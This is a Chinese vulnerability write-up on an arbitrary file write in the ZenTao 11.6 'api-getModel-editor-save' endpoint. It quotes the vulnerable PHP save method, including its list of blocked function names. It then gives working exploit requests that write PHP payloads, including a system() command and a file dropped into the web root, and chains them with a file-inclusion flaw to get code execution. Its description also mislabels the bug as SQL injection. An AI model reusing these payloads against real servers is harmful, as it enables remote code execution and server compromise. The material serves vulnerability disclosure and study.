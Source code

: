 # 禅道 11.6 api-getModel-editor-save-filePath 任意文件写入漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 影响版本

<a-checkbox checked>禅道 11.6</a-checkbox></br>

## 环境搭建

<a-checkbox checked>这里使用docker环境搭建</a-checkbox></br>

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

![img](../../../.vuepress/public/img/zentao-1-20220313232232109.png)



## 漏洞复现



这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 **禅道 11.6版本 SQL注入漏洞** 关于此漏洞的完整分析

查看**module/api/ediyor/moudel.php**下的**save方法**

```php
public function save($filePath)
    {
        $fileContent = $this->post->fileContent;
        $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
        $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
        $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
        if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

        $dirPath = dirname($filePath);
        $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
        if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
        if(is_writable($dirPath))
        {
            file_put_contents($filePath, $fileContent);
        }
        else
        {
            die(js::alert($this->lang->editor->notWritable . $extFilePath));
        }
    }
```



**$filePath参数和$fileContent参数** 我们是可控的



调用方法往 **/tmp**写入一个**phpinfo()**



```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell.php

POST:fileContent=<?php phpinfo();?>
```



![img](../../../.vuepress/public/img/zentao-24.png)



![img](../../../.vuepress/public/img/zentao-25.png)



在利用 禅道 11.6版本 任意文件读取漏洞 第二种方法来文件包含



```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1
```



![img](../../../.vuepress/public/img/zentao-26.png)



也可以写入网站目录中



先获取地址



```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

POST：fileContent=<?php system('find / -name ioncube.php')?>');?>
```



访问[**http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1**](http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1)



![img](../../../.vuepress/public/img/zentao-27.png)



得到目录为 **/app/zentaopma/www**



请求改为



```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php file_put_contents('/app/zentaopms/www/xxx.php', '<?php phpinfo();?>');?>
```

<a-alert type="success" message="再去访问 /api-getModel-api-getMethod-filePath=/tmp/shell/1，则会再网站目录下生成 xxx.php 文件" description="" showIcon>
</a-alert>
<br/>

![img](../../../.vuepress/public/img/zentao-28.png)



![img](../../../.vuepress/public/img/zentao-29.png)



## 